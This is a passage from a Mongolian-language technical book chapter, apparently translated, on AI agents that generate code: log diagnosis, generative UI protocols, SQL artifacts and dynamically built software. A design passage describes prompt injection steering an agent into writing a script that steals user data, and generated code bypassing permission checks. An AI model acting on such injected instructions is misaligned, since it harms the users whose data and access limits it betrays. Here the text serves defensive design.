Үйлдвэрлэлд Agents нь их хэмжээний замын бүртгэлийг (даалгавар бүрийн бүрэн үйл явцыг бүртгэдэг) үүсгэдэг. Гэсэн хэдий ч асуудлуудыг тодорхойлох, үндсэн шалтгаануудыг олох, эдгээр бүртгэлээс туршилтын тохиолдлуудыг бүтээх нь өндөр өртөгтэй ажил юм. Олон модулийн харилцан үйлчлэлээс болж алдаа гарч болзошгүй тул үндсэн шалтгаануудыг ялгахад хэцүү болгодог. Туршилтын орчин нь үйлдвэрлэлийн бүрэн нарийн төвөгтэй байдлыг ховор харуулдаг тул тэдгээрийг хуулбарлахад үнэтэй байж болно. Эцэст нь, системчилсэн регрессийн туршилтаар засварлалтыг хамруулаагүй үед алдаанууд ихэвчлэн дахин гарч ирдэг.

Код үүсгэх нь оношилгооны автоматжуулсан замыг бий болгодог. Agent нь үйлдвэрлэлийн бүртгэлийг уншиж, тэдгээрийг архитектурын баримт бичиг болон PRD (Бүтээгдэхүүний шаардлагын баримт бичиг)-тэй нэгтгэж, гүйцэтгэлийн урсгал нь хүлээлтийг хангаж байгаа эсэхийг автоматаар тодорхойлж, асуудалтай бүрэлдэхүүн хэсэг болон модулиудыг тодорхойлж чаддаг. Шинжилгээний үр дүнд үндэслэн бүтэцлэгдсэн асуудлын тайлан (эрэгцүүлэл, модуль, тайлбар, сайжруулалтын санал) болон регрессийн туршилтын тохиолдлуудыг үүсгэдэг - туршилтын тохиолдлууд нь асуудлын замын ID болон гол харилцан үйлчлэлийн тойргуудыг лавладаг бөгөөд туршилтын хүрээ нь тогтмол систем нь ижил оролтын хувьд зөв зан төлөвийг бий болгож байгаа эсэхийг баталгаажуулахын тулд тэдгээрийг автоматаар дахин тоглуулдаг. Эцэст нь, Agent нь MCP-ээр дамжуулан GitHub-тэй холбогдож Асуудал үүсгэж, холбогдох хөгжүүлэгчид оноож, асуудлыг илрүүлэхээс эхлээд даалгаврын хуваарилалт хүртэлх бүрэн автоматжуулалтыг гүйцэтгэдэг.

> **5-11-р туршилт ★★★: Үйлдвэрлэлийн бүртгэлд зориулсан ухаалаг оношлогооны Систем**
>
> **Туршилтын зорилго**: Үйлдвэрлэлийн чиглэлээс асуудлуудыг автоматаар илрүүлэх, туршилтын тохиолдлуудыг үүсгэх, ажлын зүйлсийг үүсгэх.
>
> **Техникийн арга**: Agent нь асуудлын хэв маяг болон холбогдох модулиудыг тодорхойлохын тулд системийн архитектурын баримт бичиг болон PRD-ийн хамт үйлдвэрлэлийн чиглэлийн багцыг шинжилдэг. Дараа нь энэ нь тэргүүлэх чиглэл, модуль, тайлбар, санал болгосон сайжруулалтыг агуулсан бүтэцлэгдсэн асуудлын тайланг үүсгэдэг. Энэ нь мөн чиглэлийн ID болон харилцан үйлчлэлийн тойрогтой холбоотой регрессийн тестийг үүсгэдэг; туршилтын хүрээ нь эдгээр тохиолдлуудыг дахин тоглуулж, үр дүнг баталгаажуулдаг. Эцэст нь Agent нь MCP-ээр дамжуулан GitHub асуудлуудыг үүсгэдэг.
>
>
> 
>
>

### UI үүсгэгч код

Уламжлалт Agent системүүд нь хэрэглэгчидтэй голчлон энгийн текст харилцан яриагаар харилцдаг. Гэхдээ текст бол шугаман, нэг хэмжээст хэрэгсэл бөгөөд олон тохиолдолд үр ашиггүй байдаг. Бүтэцлэгдсэн мэдээлэл цуглуулахад урт хугацааны харилцан үйлчлэл шаардлагатай; нарийн төвөгтэй өгөгдлийн харилцааг энгийн текстээр илэрхийлэхэд хэцүү байдаг; мөн хэрэглэгчид сонголтуудын аль нэгийг нь сонгох шаардлагатай үед текстийн жагсаалт нь харааны интерфэйсээс хамаагүй бага ойлгомжтой байдаг.

Код үүсгэх нь эдгээр хязгаарлалтуудыг давах арга замыг санал болгодог: Agents нь маягтууд, интерактив диаграмууд, тэр ч байтугай бүрэн вэб програмуудыг динамикаар үүсгэж, статик текстийн харилцан яриаг баялаг, олон горимт харилцан үйлчлэл болгон хувиргаж чаддаг. Agent нь интерфэйсийг динамикаар үүсгэдэг энэхүү хэв маягийг **Үйлдвэрлэх UI** гэж нэрлэдэг.

**A2UI төст протоколууд: Үүсгэх UI-г стандартчилах.**

Agents-д үйлчлүүлэгчийн шууд ажиллуулж, гүйцэтгэсэн HTML болон JavaScript үүсгэхийг зөвшөөрөх нь үндсэн аюулгүй байдлын эрсдэлийг бий болгодог: үүсгэсэн код нь хортой байж болно. Жишээлбэл, хэрэв хэн нэгэн оролтод зааврыг санаатайгаар нуувал Agent-г шуурхай оруулга ашиглан удирдаж, хэрэглэгчийн өгөгдлийг нууцаар хулгайлдаг скриптийг мэдэлгүйгээр үүсгэж болно. Энд шалтгааны гинжин хэлхээ чухал юм: **шуурхай оруулга** - Agent-ийн оролтод холилдсон хортой зааварчилгаа - шалтгаан болдог бол үр дүнд нь үүссэн хортой скриптийг хөтөч дээр ажиллуулж, өгөгдлийг хулгайлах нь уламжлалт Вэб XSS (Сайтын хоорондын скрипт)-тэй төстэй байдаг; халдлагыг бүхэлд нь зүгээр л XSS гэж нэрлэх ёсгүй. A2UI (Agent-ээс Хэрэглэгч интерфэйс хүртэл) зэрэг тунхаглах интерфэйсийн протоколууд нь илүү аюулгүй аргыг санал болгодог. Ажиллуулах боломжтой кодыг шууд үүсгэхийн оронд Agent нь зөвхөн JSON "UI тайлбарын манифест"-ийг гаргадаг, тухайлбал "'Борлуулалт Өгөгдөл' гэсэн гурван мөр, хоёр баганатай хүснэгтийг харуулна уу." Дараа нь үйлчлүүлэгч өөрийн урьдчилан тодорхойлсон, аюулгүй бүрэлдэхүүн хэсгүүдийг ашиглан интерфэйсийг дүрсэлдэг. Энэ нь рестораны цэстэй адил юм: үйлчлүүлэгч (Agent) цэснээс зөвхөн хоол захиалж болно (урьдчилан тодорхойлсон бүрэлдэхүүн хэсгүүд), гал тогоонд орж дурын хоол бэлтгэж чадахгүй (дурын кодыг ажиллуулна). Нэг нийтлэг төөрөгдөл бол AG-UI (Agent-Хэрэглэгч Харилцан үйлчлэл, CopilotKit-ийн санал болгосон). Ижил төстэй нэртэй хэдий ч энэ нь UI тайлбарын хэл биш, харин Agent-ийн гүйцэтгэлийн төлөвийг - мессеж, хэрэгслийн дуудлага, төлөвийн нөхөөсийг - урд хэсэгт дамжуулдаг **үйл явдал ба тээвэрлэлтийн протокол** юм; мөн A2UI манифест гэх мэт UI датаг зөөж чаддаг. Эдгээр хоёр нь харилцан бие биенээ нөхдөг бөгөөд ижил тунхаглалын интерфэйсийн ангиллын жишээ болгон бүлэглэж болохгүй.

Ийм протоколуудын гол дизайны зарчим нь **аюулгүй байдал нэн тэргүүнд** юм: үйлчлүүлэгч нь итгэмжлэгдсэн бүрэлдэхүүн хэсгийн каталогийг (жишээ нь, Card, Button, TextField, Хүснэгт) хадгалдаг бөгөөд хэрэв каталог болон хөрвүүлэгчийг зөв хэрэгжүүлсэн бол Agent нь зөвхөн каталогжуулсан бүрэлдэхүүн хэсгүүдийг хүсч болох бөгөөд дурын код оруулж чадахгүй. Үйлчлүүлэгч нь Agent-ийн үүсгэсэн дурын HTML-ийг ажиллуулахгүйгээр өөрийн уугуул бүрэлдэхүүн хэсгүүдийг ашиглан хөрвүүлдэг. Эдгээр протоколууд нь ихэвчлэн **платформ хоорондын хөрвүүлэлтийг** (ижил тайлбар нь React, Flutter болон уугуул аппликейшнуудад хөрвүүлдэг) болон **нэмэлт үүсэлтийг** (жишээлбэл, үйлчлүүлэгч ирэхэд хөрвүүлдэг JSONL-ийг дамжуулах замаар) дэмждэг.

Мэдээжийн хэрэг, тунхаглах арга нь стандартчилагдсан харилцан үйлчлэлийн хувилбаруудад (маягт, хүснэгт, карт) тохиромжтой байдаг бол өндөр түвшинд тохируулсан хэрэгцээнд (жишээ нь, өөрчлөн тохируулсан дүрслэл, тоглоомын интерфэйс) шууд код үүсгэх нь илүү уян хатан сонголт хэвээр байна. Доор хоёр хэв маягийн тодорхой хэрэглээг харуулав.

**HTML ашиглан үр дүн гаргах нь: Markdown тайланг солих.** Үүсгэн байгуулагч UI нь зөвхөн харилцан үйлчлэлийн үед ашиглагдаад зогсохгүй Agent-ийн эцсийн **хүргэх** хэлбэрийг өөрчилдөг. Уламжлал ёсоор Agent нь даалгаврыг дуусгаж, Markdown тайланг хүлээлгэн өгдөг; гэхдээ шугаман байдлаар байрлуулсан Markdown-оор хуудаслах нь уншихад таатай арга биш юм. Agents нь фронтенд код үүсгэхдээ сайжирч байгаа тул практик нь тэднийг HTML-ийг шууд үүсгэхэд чиглэж байна. Markdown-той харьцуулахад HTML хүргэлтүүд нь хэд хэдэн тодорхой давуу талтай. Нэгдүгээрт, **интерактив үзүүлэнгүүд** нь хэрэглэгчдэд систем хэрхэн ажилладагийг интерактив хэлбэрээр харах боломжийг олгодог бөгөөд энэ нь урт текст тайлбараас илүү нэг дор ойлгоход хялбар болгодог. Хоёрдугаарт, **илүү сайн өгөгдлийн дүрслэл** нь хэрэглэгчдэд график болон интерактив удирдлагын тусламжтайгаар өгөгдлийг үзэх, шүүх, дэлгэрэнгүй мэдээллийг гүнзгийрүүлэх боломжийг олгодог. Гуравдугаарт, **тасралтгүй сайжруулж болох үр дүн** нь Agent-д зөвхөн төгсгөлд нь статик артефакт үүсгэхийн оронд HTML вэбсайтыг даалгаврын туршид шинэчилж, өргөтгөх боломжийг олгодог.

Зохиогчийн судалгааны ажил бичих өөрийн туршлагыг жишээ болгон авч үзье: судалгааны төсөл бүрийн хувьд зохиогч интерактив вэбсайттай байдаг [^ch5-4]. Энэ нь судалгааны үйл явцын туршид эцсийн үр дүн болон амьд баримт бичиг болж үйлчилдэг - зохиогч Agent-г туршилтууд үргэлжлэх тусам тасралтгүй шинэчилдэг. Энэхүү вэбсайт нь дор хаяж гурван зорилгоор үйлчилдэг. Нэгдүгээрт, **туршилтын өгөгдлийн мөрдөх чадвар**: туршилт бүрийн тодорхой өгөгдөл, ашигласан зааварчилгаа, LLM-ийн түүхий хариултуудыг сайт дээр зүйл бүрээр нь шалгаж болно; бүх зүйлийг ил тод байрлуулах нь өгөгдлийн бүтэц, формат, түгээлтийн асуудлуудыг илрүүлэх, LLM-ийн хариулт эсвэл шүүгчийн онооны системчилсэн алдааг анзаарахад хялбар болгодог. Хоёрдугаарт, **сургалтын хэмжүүрийн хяналт**: сайт нь сургалтын муруйг шууд харуулдаг бөгөөд энэ нь Model-ын **дотоод эрүүл мэндийн хэмжүүрийг** хянах, сургалтын үйл явц эрүүл хэвээр байгаа эсэхийг тодорхойлоход хялбар болгодог. Энэ нэр томьёо нь анагаах ухаанаас зээлсэн: эдгээр нь сургалтын үйл явц өөрөө эрүүл байгаа эсэхийг харуулсан дотоод дохионууд юм - сургалт болон баталгаажуулалтын алдагдал, градиентийн норм, суралцах хурд, Model-ын Token ялгаруулах үеийн эргэлзээ (өөрийн гаралтад "итгэл үнэмшил"-ийн хэмжүүр), мөн бэхжүүлэх сургалт, шагнал, KL-ийн зөрүү, бодлогын энтропи. Эдгээр нь даалгаврын нарийвчлал гэх мэт эцсийн үр дүнгийн үзүүлэлтүүдээс ялгаатай: шалгалтын физиологийн уншилт нь хүний ​​гадаад гүйцэтгэлээс ялгаатай байдаг шиг дотоод эрүүл мэндийн үзүүлэлтүүд нь ихэвчлэн асуудлуудыг - нэгддэггүй алдагдал, дэлбэрэх градиент, сургалтын уналт - хамаагүй эрт илрүүлдэг. Гуравдугаарт, **системийн ажиллагааг харуулах**: дүрслэл нь бүхэл бүтэн систем хэрхэн ажилладагийг харуулж, уншигчдад AI-ээр бүтээгдсэн системийн бүтцийг нэг дор ойлгох боломжийг олгодог.

[^ch5-4]: Зохиогчийн судалгааны төслийн вэбсайтыг https://01.me/research/, хаягаар олж болно. Төсөл бүр тасралтгүй шинэчлэгддэг интерактив вэбсайттай.

**Хэрэглэгч зорилгыг тодруулж байна.**

Шаардлага тодорхойгүй эсвэл бүрэн бус үед Agent нь дутуу мэдээллийг цуглуулахын тулд тодруулах асуултууд асуух ёстой. OpenAI Deep Research гэх мэт бүтээгдэхүүнүүд үүнийг ихэвчлэн текст дээр суурилсан асуулт хариултаар хийдэг боловч энэ арга нь тодорхой хязгаарлалттай байдаг: асуулт бүр харилцан ярианы эргэлт шаарддаг тул үр ашиггүй тул арван тодруулах зүйлд арван удаагийн үе шат шаардагдаж магадгүй; мөн асуултуудын хоорондын хамаарлыг илэрхийлэхдээ муу байдаг - жишээлбэл, аяллын газар нь тээврийн хэрэгслийн боломжит хэлбэрийг хязгаарладаг - энгийн текстэд тодорхой дүрслэхэд хэцүү байдаг.

Код үүсгэх замаар Agent нь текст дээр суурилсан асуулт хариултыг орлох бүтэцлэгдсэн интерактив интерфэйсүүдийг үүсгэж чадна. Зураг 5-8 нь динамик маягт үүсгэх үйл явцыг харуулж, Agent нь тодруулгын асуултуудыг нэг дор бөглөх боломжтой бүтэцлэгдсэн интерфэйс болгон хэрхэн хувиргадаг болохыг харуулж байна. Agent нь янз бүрийн оролтын хяналтыг агуулсан HTML маягтыг үүсгэдэг - нээлттэй мэдээллийн текст хайрцаг, урьдчилан тодорхойлсон сонголтуудын уналтын цэс, олон сонголтын тэмдэглэгээний хайрцаг, хялбаршуулсан цаг оруулах огноо сонгогч. Илүү дэвшилтэт хувилбарууд нь JavaScript-г ашиглан дараагийн асуултуудыг харуулах эсвэл нуух каскад маягтуудыг үүсгэж, хэрэглэгчийн сонголтод хариулах боломжтой сонголтуудыг шинэчилж болно. Хэрэглэгч маягтыг бүхэлд нь нэг дор бөглөж, олон харилцан ярианы тойргийг арилгаж, шаардлагатай бүх мэдээлэл болон асуултуудын хоорондох логик харилцааг тодорхой харж чадна.




> **5-12-р туршилт ★★: Динамик маягтуудтай Систем зорилгын тодруулга**
>
> **Туршилтын зорилго**: Agent маягтуудыг динамикаар үүсгэх замаар хэрэглэгчийн зорилгыг тодруулах чадварыг HTML баталгаажуулна уу.
>
> **Техникийн арга**: Agent нь хэрэглэгчийн хүсэлтийг шинжилж, тодруулгын цэгүүдийг тодорхойлж, каскад логикоор маягтын код үүсгэдэг. Фронтэнд үүнийг рендерлэж, хэрэглэгч нэг удаа илгээж, Agent нь ажлыг үргэлжлүүлэхийн тулд JSON өгөгдлийг задлан шинжилдэг.
>
> **Хүлээн авах шалгуур**: Хэрэглэгч нь "Би Бээжин рүү нислэг захиалахыг хүсэж байна" гэж оруулна. Agent нь дараах талбаруудыг агуулсан маягтыг үүсгэдэг: хөдлөх хот (текст оруулах), хөдлөх огноо (огноо сонгогч), аяллын төрөл (нэг талын эсвэл хоёр талын аяллын радио товчлуурууд), болон буцах огноо (зөвхөн хоёр талын аяллыг сонгосон үед харагдана). Хэрэглэгч бүх мэдээллийг нэг дор илгээнэ.
>

**SQL Асуулга үүсгэх.**

Database асуулга нь код үүсгэх нь харилцан үйлчлэлийн туршлагыг мэдэгдэхүйц сайжруулж чадах хувилбар юм. Уламжлалт мэдээллийн сангийн хандалт нь GUI хэрэгслүүд эсвэл гар бичмэл SQL дээр суурилдаг; эхнийх нь ажиллахад төвөгтэй бөгөөд сүүлийнх нь хэрэглэгчээс тусгай мэдлэг шаарддаг. Agent нь байгалийн хэлийг SQL болгон хөрвүүлж чаддаг боловч дизайны гол сонголт байдаг: Agent нь асуулга гүйцэтгэж, үр дүнг байгалийн хэлээр тайлбарлах ёстой юу, эсвэл SQL-ийг систем гүйцэтгэх, нүүрэн хэсгийг харуулахын тулд артефакт болгон үүсгэх ёстой юу?

Эхний арга нь илүү "ухаалаг" харагдаж байгаа ч маш үр ашиггүй юм - том хүснэгтийн эсрэг асуулга нь мянга мянган мөр буцааж өгч магадгүй юм. LLM-г энэ бүхнийг уншиж, үгээр тайлбарлах нь Token болон цагийг шатаадаг бөгөөд үүнээс ч дор нь LLMs нь өгөгдлийг "хуулбарлах" үед алдаа гаргах хандлагатай байдаг. Илүү сайн арга бол **Артефактын загвар** юм. Зураг 5-9 нь SQL асуулгын Agent-ийн ажлын урсгалыг харуулж байна: өгөгдлийг өөрөө уншихын оронд Agent нь SQL асуулга үүсгэж, системд бие даасан **гүйцэтгэх боломжтой артефакт** болгон дамжуулдаг. Систем нь асуулгыг мэдээллийн сангийн эсрэг гүйцэтгэж, үр дүнг хэрэглэгчдэд зориулж хүснэгтэд харуулдаг. Тиймээс өгөгдөл нь LLM-ээр дамжихгүйгээр мэдээллийн сангаас интерфэйс рүү шууд дамждаг; LLM нь асуулгыг бичдэг боловч хэзээ ч мянга мянган мөрийг уншиж, дахин бичих шаардлагагүй байдаг. Энэ арга нь илүү хурдан бөгөөд илүү нарийвчлалтай юм.

Үүсгэсэн SQL болон дүрслэх кодыг шууд гүйцэтгэх ёсгүй. Гүйцэтгэлийн давхарга нь зөвхөн унших боломжтой мэдээллийн сангийн итгэмжлэлийг ашиглах, SQL-г задлан шинжлэх, зөвхөн батлагдсан `SELECT` мэдэгдлүүдийг зөвшөөрөх, DDL, DML болон олон мэдэгдлийн асуулгыг татгалзах ёстой. Хэрэглэгч-ийн өгсөн утгууд нь Server талын параметрүүдээр хязгаарлагдах ёстой бөгөөд асуулгын хугацаа, буцаагдсан мөрүүд, хандах боломжтой хүснэгтүүд болон огнооны хязгаарууд дээр хязгаарлалттай байх ёстой. Дүрслэх код нь сүлжээ болон файлын системээс тусгаарлагдсан sandbox-д ажиллах ёстой бөгөөд зөвхөн батлагдсан үр дүнгийн форматыг гаргах ёстой. Артефакт загвар нь өгөгдлийн замыг богиносгодог; энэ нь зөвшөөрлийн шалгалт эсвэл гүйцэтгэлийн тусгаарлалтыг орлохгүй.




Цаашилбал, Agent нь дамжуулах хоолой үүсгэдэг хоёр артефакт үүсгэж чадна: SQL асуулга болон дүрслэх код, тухайлбал бар диаграмын код. Фронтенд нь SQL үр дүнг дүрслэх код руу шууд дамжуулдаг. LLM нь кодыг үүсгэдэг боловч өгөгдлийн замд оролцдоггүй - энэ бол интерфейс болгон код үүсгэхийн мөн чанар юм.

> **5-13-р туршилт ★★: Байгалийн хэлний харилцан үйлчлэл ERP Agent**
>
> ERP (Enterprise Resource Төлөвлөлт) програм хангамж нь бизнесийн хувьд чухал систем бөгөөд ихэвчлэн нарийн төвөгтэй үйлдлүүд нь хулганы олон товшилт шаарддаг GUI интерфэйсийг ашигладаг. AI Agent нь хэрэглэгчдийн байгалийн хэл дээрх хүсэлтийг SQL асуулга болгон хөрвүүлж, мэдээллийн санд автоматжуулсан хандалтыг идэвхжүүлж чаддаг.
>
> Шаардлага: Хоёр хүснэгт агуулсан PostgreSQL мэдээллийн санг үүсгэнэ үү: (1) Ажилтны дугаар, нэр, хэлтэс, түвшин, ажилд авсан огноо, ажлаас халагдсан огноо (NULL гэдэг нь одоогоор ажиллаж байгаа гэсэн үг); (2) Цалингийн хүснэгт, ажилтны дугаар, цалингийн огноо, цалин (сард нэг бичлэг) зэргийг багтаана. Agent нь автоматаар хариулдаг:
>
> 1. Ажилтны дундаж ажилласан хугацаа хэд вэ?
> 2. Хэлтэс бүрт хэдэн идэвхтэй ажилтан байдаг вэ?
> 3. Аль хэлтэс нь ажилчдын дундаж түвшин хамгийн өндөр вэ?
> 4. Энэ болон өнгөрсөн жил хэлтэс бүрт хэдэн шинэ ажилтан нэмэгдсэн бэ?
> 5. А хэлтсийн дундаж цалин өнгөрсөн оны 3-р сараас өнгөрсөн оны 5-р сар хүртэл хэд байсан бэ?
> 6. Өнгөрсөн жил аль хэлтэс дундаж цалин өндөр байсан бэ, А эсвэл Б?
> 7. Энэ жил шатлал бүрийн ажилчдын дундаж цалин хэд вэ?
> 8. Нэг жилээс бага, нэгээс хоёр жил, хоёроос гурван жил ажилласан ажилчдын сүүлийн сарын дундаж цалин хэд вэ?
> 9. Өнгөрсөн жилээс энэ жил хүртэл аль 10 ажилтны цалин хамгийн их өссөн бэ?
> 10. Цалин төлөөгүй тохиолдол байдаг уу (тухайн сард ажиллаж байсан боловч тухайн сарын цалингийн бүртгэлгүй ажилчид)?
>

**Динамик байдлаар үүсгэдэг програм хангамж.**

Код үүсгэх эцсийн хэрэглээ бол Agent-д програм хангамжийг бүхэлд нь динамикаар, эхнээс нь үүсгэх боломжийг олгох явдал юм. Anthropic-ийн "Claude-тэй төсөөлөөд үз дээ" гэдэг нь хил хязгаарыг тэмдэглэдэг: хэрэглэгч хүсэлт гаргадаг, Claude нь урд талын интерфэйс болон харилцан үйлчлэлийн логикийг бодит цаг хугацаанд үүсгэдэг, хэрэглэгч үүсгэсэн програм хангамжтай харилцдаг бөгөөд Claude нь үр дүнг харуулсан шинэ интерфэйс үүсгэхийн тулд кодыг өөрчилдөг. Хэрэглэгч програм юу ч үгүй ​​​​байгаад үүсч, хөгжиж байгааг ажигладаг.

Гэсэн хэдий ч бүрэн динамик үүсгэлт нь өртөг өндөртэй бөгөөд удаан байдаг бөгөөд үйлдвэрлэлийн хэрэглээнээс илүү боломжтой зүйлийг үзүүлэхэд илүү тохиромжтой. Илүү прагматик арга бол **одоо байгаа хүрээг өөрчлөх** явдал юм. Энэхүү "хагас өөрчлөн тохируулах" Model нь сонгосон талуудыг хэрэглэгчийн хяналтад ил гаргахын зэрэгцээ үндсэн програм хангамжийн тогтвортой байдлыг хадгалдаг. Хэрэглэгч "товчлуурыг цэнхэр болгох", "хажуугийн мөрөнд товчлолын цэс нэмэх" эсвэл "илүү уншигдахуйц фонт руу шилжих" гэж хэлж болно; Agent нь урд талын кодыг шинэчилдэг бөгөөд HMR (Hot Module Replacement - нөлөөлөлд өртсөн модулиудыг бүтэн хуудсыг дахин ачаалалгүйгээр шинэчилдэг бөгөөд ихэвчлэн програмын төлөвийг хадгалдаг) өөрчлөлтүүдийг шууд хэрэгжүүлдэг. Бүх хүнд тохирсон нэг хэмжээст бүтээгдэхүүн нь хэрэглэгч бүрт тохирсон туршлага болдог.

> **5-14-р туршилт ★★: Харилцан ярианы интерфэйсийн тохируулга Систем**
>
> **Туршилтын зорилго**: Хэрэглэгчдэд програм хангамжийн интерфэйсийг байгалийн хэлний харилцан яриагаар дамжуулан шууд өөрчлөх боломжийг олгох, мөн код үүсгэх нь хэрэглэгчийн хувийн туршлагыг үр дүнтэйгээр хангаж чадах эсэхийг үнэлэх.
>
> **Техникийн арга**: Үндсэн чатбот програмыг (React frontend болон FastAPI backend) бүтээж, хоёр бүрэлдэхүүн хэсгийг хоёуланг нь хөгжүүлэлтийн горимд халуун дахин ачаалах горимыг идэвхжүүлсэн (React HMR болон FastAPI дахин ачаалах) горимд ажиллуулна. Хэрэглэгч нь харилцан ярианы үеэр UI тохируулгын шаардлагыг (өнгө, фонт, зохион байгуулалт, бүрэлдэхүүн хэсгийн байрлал гэх мэт) санал болгодог. Agent нь кодыг бие даан өөрчилдөг. Халуун дахин ачаалах механизм нь файлын өөрчлөлтийг автоматаар илрүүлж, frontend дахин эмхэтгэж, шинэчилдэг бөгөөд хэрэглэгч интерфэйсийн өөрчлөлтийг бодит цаг хугацаанд хардаг. Систем нь давталтын тохируулгын олон үе шатыг дэмждэг.
>

Динамик програм хангамж нь уламжлалт аюулгүй байдлын таамаглалыг уян хатан байдлын хамт өөрчилдөг. Өмнө нь програмын бизнесийн кодыг боловсруулж, хянаж, туршиж, байршуулж, дараа нь тодорхой хугацаанд харьцангуй тогтвортой байсан. Тиймээс зөвшөөрлийн шалгалт нь ихэвчлэн програмын түвшинд байдаг байсан: бизнесийн код нь эхлээд одоогийн хэрэглэгч бичлэгийг уншиж эсвэл өөрчилж чадах эсэхийг шийдэж, дараа нь үйлдлийг мэдээллийн сан руу илгээдэг байв. Agent нь хүссэн үедээ интерфэйс, ажлын урсгал, тэр ч байтугай өгөгдөлд хандах кодыг үүсгэж эсвэл дахин бичиж болох үед тухайн давхарга нь тогтвортой байхаа больдог. Шинээр үүсгэсэн код нь нарийн зөвшөөрлийн шалгалтыг орхигдуулж, өмнө нь нуугдсан талбарыг ил гаргаж эсвэл өөр дуудлагын замаар одоо байгаа шалгалтыг тойрч гарч болзошгүй. Шалтгаан нь ердийн үүсгэлтийн алдаа эсвэл шуурхай тарилгын дараа үүссэн аюултай код эсэхээс үл хамааран үр дүн нь адилхан: бизнесийн кодын хадгалах ёстой зөвшөөрлийн хил хязгаарыг чимээгүйхэн эвдэж болно.

Тиймээс динамик програм хангамжийн аюулгүй байдлын зорилго нь "AI нь бүх зөвшөөрлийн шалгалтыг зөв бичсэн эсэхийг шалгах" байж болохгүй. Энэ нь **AI буруу код бичсэн ч гэсэн зөвшөөрлийн хязгаарлалтыг тойрч гарах боломжгүй хэвээр байх ёстой**. Хэрэв зөвшөөрлийн шалгалт нь динамикаар үүсгэгдсэн бизнесийн логик дотор оршдог бол тэдгээр нь хязгаарлах ёстой кодтойгоо ижил итгэлцлийн домэйнийг хуваалцдаг. Prompts, тест, кодын хяналт нь алдааны түвшинг бууруулдаг боловч ирээдүй үеийнхний нэвтрүүлсэн бүх гүйцэтгэлийн замыг бүрэн хамарч чадахгүй бөгөөд эцсийн аюулгүй байдлын хил хязгаар болж чадахгүй.

Илүү бат бөх архитектур нь итгэлцлийн хил хязгаарыг өгөгдлийн давхарга руу шилжүүлдэг. Динамикаар үүсгэгдсэн програмын код нь танилцуулга, ажлын урсгал, бизнесийн найруулгыг зохицуулж чаддаг бол тогтвортой, хүний ​​хяналттай механизм нь хэн ямар өгөгдөлд юу хийж болохыг шийддэг дүрмийг хэрэгжүүлдэг. Database мөрийн түвшний аюулгүй байдал нь хэрэглэгчдийг өөрийн түрээслэгч дэх бичлэгүүдээр хязгаарлаж чаддаг; хязгаарлалт болон баталгаажуулагчид нь хууль бус төлөвийг няцааж чаддаг; хяналттай харагдац, хадгалагдсан процедур эсвэл өгөгдөлд хандах үйлчилгээ нь зөвхөн батлагдсан үйлдлүүдийг илчилж чаддаг. Унших болон бичих үйлдэл бүр нь хэрэглэгч, түрээслэгч, үүрэг эсвэл Agent таних тэмдгийг агуулсан итгэмжлэгдсэн ажиллах хугацаанд хязгаарлагдсан **хандалтын Context**-тэй байх ёстой. Үүсгэсэн код нь зөвхөн 